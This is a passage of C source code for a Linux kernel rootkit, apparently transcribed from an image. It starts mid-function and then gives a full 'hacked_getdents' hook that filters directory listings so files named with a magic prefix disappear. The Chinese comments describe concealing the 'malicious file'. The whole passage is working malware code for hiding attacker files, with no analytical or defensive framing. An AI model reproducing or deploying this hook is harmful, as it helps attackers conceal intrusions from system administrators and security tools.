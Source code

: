 ```c
  if (kdirent == NULL)
    return ret;
  err = copy_from_user(kdirent, dirent, ret);
  if (err)
    goto out;
  // 遍历和过滤
  while (off < ret) {
    dir = (void *)kdirent + off;
    if (memcmp(MAGIC_PREFIX, dir->d_name, strlen(MAGIC_PREFIX)) == 0) {
      if (dir == kdirent) {
        ret -= dir->d_reclen;
        memmove(dir, (void *)dir + dir->d_reclen, ret);
        continue;
      }
      // 将前一个（合法的）文件的“记录长度”(d_reclen) 字段扩大，使其“吞并”当前这个恶意文件的空间
      prev->d_reclen += dir->d_reclen;
    } else
      prev = dir;
    off += dir->d_reclen;
  }
  // 复制返回用户空间
  err = copy_to_user(dirent, kdirent, ret);
  if (err)
    goto out;
out:
  kfree(kdirent);
  return ret;
}

static asmlinkage long hacked_getdents(const struct pt_regs *pt_regs) {
  struct linux_dirent * dirent = (struct linux_dirent *) pt_regs->si;
  int ret = orig_getdents(pt_regs), err;
  unsigned long off = 0;
  struct linux_dirent *dir, *kdirent, *prev = NULL;
  if (ret <= 0)
    return ret;	
  kdirent = kzalloc(ret, GFP_KERNEL);
  if (kdirent == NULL)
    return ret;
  err = copy_from_user(kdirent, dirent, ret);
  if (err)
    goto out;
  while (off < ret) {
    dir = (void *)kdirent + off;
    if (memcmp(MAGIC_PREFIX, dir->d_name, strlen(MAGIC_PREFIX)) == 0) {
      if (dir == kdirent) {
        ret -= dir->d_reclen;
        memmove(dir, (void *)dir + dir->d_reclen, ret);
        continue;
      }
      prev->d_reclen += dir->d_reclen;
    } else
      prev = dir;
    off += dir->d_reclen;
  }
  err = copy_to_user(dirent, kdirent, ret);
  if (err)
    goto out;
out:
  kfree(kdirent);
  return ret;
}

```
